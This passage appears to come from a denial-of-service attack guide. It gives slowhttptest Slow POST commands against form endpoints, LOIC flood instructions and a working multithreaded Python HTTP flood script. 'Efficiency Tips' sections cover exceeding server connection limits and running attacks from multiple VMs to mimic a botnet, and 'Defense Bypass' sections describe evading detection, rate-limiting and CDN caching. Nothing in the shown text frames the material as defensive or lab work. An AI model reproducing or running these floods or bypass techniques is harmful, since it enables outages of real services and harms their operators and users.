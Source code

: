   - **Slow POST** :
    `bash slowhttptest -c 1000 -B -i 10 -r 200 -t POST -u http://<target_ip>/form `

    \*`-B`: Slow POST mode.

    - Targets form endpoints (e.g., login or search forms).

  - **Efficiency Tips** :
  - Identify target’s connection limit (e.g., Apache’s `MaxClients`) and exceed it.
  - Test POST endpoints (e.g., feedback forms) for higher impact.
  - Use `-x 24` to send larger payloads for CPU exhaustion.
  - **Defense Bypass** :
  - Slow attacks evade behavioral detection by mimicking legitimate traffic.
  - POST attacks target dynamic endpoints that bypass CDNs.

  ### 3.4 LOIC (Low Orbit Ion Cannon)

  **Purpose** : Generate high-volume HTTP, TCP, or UDP floods.

  - **Protocols** : HTTP, TCP, UDP.
  - **Strengths** : Simple to use, high traffic volume, supports distributed attacks.
  - **Usage** :
  - Command:

    ```bash
    loic
    ```

    - GUI-based: Enter target URL/IP, select method (HTTP, TCP, UDP), and start.
    - HTTP Flood: `http://<target_domain>`, 1000 threads.
    - TCP Flood: Target port 80, max sockets.

  - **CLI Alternative** (custom Python for HTTP flood):

    ```python
    import requests
    import threading

    def http_flood(target, threads=100):
        def attack():
            while True:
                try:
                    requests.get(target, timeout=5)
                except:
                    pass
        for _ in range(threads):
            threading.Thread(target=attack).start()

    target = "http://target_server"
    http_flood(target)
    ```

  - **Efficiency Tips** :
  - Run LOIC from multiple VMs to simulate a botnet.
  - Target specific endpoints (e.g., `/search`) to overload application logic.
  - Combine with UDP floods for multi-vector impact.
  - **Defense Bypass** :
  - High-volume requests overwhelm rate-limiting.
  - Randomized URLs (`/page?rand=123`) bypass CDN caching.
